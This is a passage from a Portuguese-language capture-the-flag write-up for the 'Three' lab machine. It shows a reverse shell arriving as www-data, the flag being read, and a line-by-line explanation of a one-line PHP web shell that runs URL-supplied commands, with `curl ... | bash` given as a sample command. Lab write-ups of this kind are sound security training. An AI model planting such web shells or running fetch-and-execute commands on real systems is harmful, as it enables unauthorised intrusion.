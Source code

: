 6.  **Receber o Reverse Shell:** Seu listener `nc` deve receber uma conexão. Você terá um shell interativo como `www-data`.
    ```
    Ncat: Connection from {IP_DO_ALVO}.
    Ncat: Connection from {IP_DO_ALVO}:35172.
    www-data@three:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

---

## Captura da Flag

A flag está localizada em `/var/www/flag.txt`.

*   **Comando no reverse shell:**
    ```bash
    cat /var/www/flag.txt
    ```
*   **Flag:**
    <details>
      <summary>Clique para revelar a flag</summary>
      <p><i>A flag real seria exibida aqui. Como este é um exemplo, vamos supor que seja algo como <code>HTB{S3_AND_PHP_SHELLS_ARE_FUN}</code>.</i></p>
    </details>

---

Parabéns! Você completou a máquina "Three" explorando um bucket S3 mal configurado para obter RCE e, em seguida, um reverse shell.

---

## Aprofundamento: Entendendo `shell.php` e `shell.sh`

Vamos destrinchar como esses dois pequenos scripts trabalham juntos para lhe dar um reverse shell.

### 1. `shell.php` - O Mensageiro no Servidor Alvo

*   **Conteúdo:**
    ```php
    <?php system($_GET["cmd"]); ?>
    ```

*   **O que ele faz, passo a passo:**
    1.  `<?php ... ?>`: Isso diz ao servidor web Apache (que está configurado para processar arquivos `.php`) que o conteúdo dentro dessas tags é código PHP e deve ser executado pelo interpretador PHP.
    2.  `$_GET`: Em PHP, `$_GET` é uma **superglobal array associativo**. Ela contém todas as variáveis passadas para o script atual através dos parâmetros da URL (a parte depois do `?`).
        *   Por exemplo, se você acessa `http://thetoppers.htb/shell.php?cmd=ls&user=admin`, então:
            *   `$_GET["cmd"]` conteria a string `"ls"`.
            *   `$_GET["user"]` conteria a string `"admin"`.
    3.  `$_GET["cmd"]`: Especificamente, estamos pegando o valor associado à chave `"cmd"` na URL. No nosso caso de RCE, o valor de `"cmd"` é o comando que queremos que o servidor execute (ex: `id`, ou `curl ... | bash`).
    4.  `system()`: Esta é uma função PHP que executa um comando externo do sistema operacional e exibe a saída.
        *   Ela pega uma string como argumento (no nosso caso, o valor de `$_GET["cmd"]`).
        *   Ela passa essa string para o shell padrão do sistema operacional do servidor (geralmente `/bin/sh` ou `/bin/bash` em sistemas Linux).
        *   O shell do servidor então executa o comando.
        *   Qualquer saída que o comando produzir (stdout) é retornada pela função `system()` e, por padrão, também é enviada diretamente para a saída HTTP (ou seja, seu navegador ou a saída do seu `curl`).
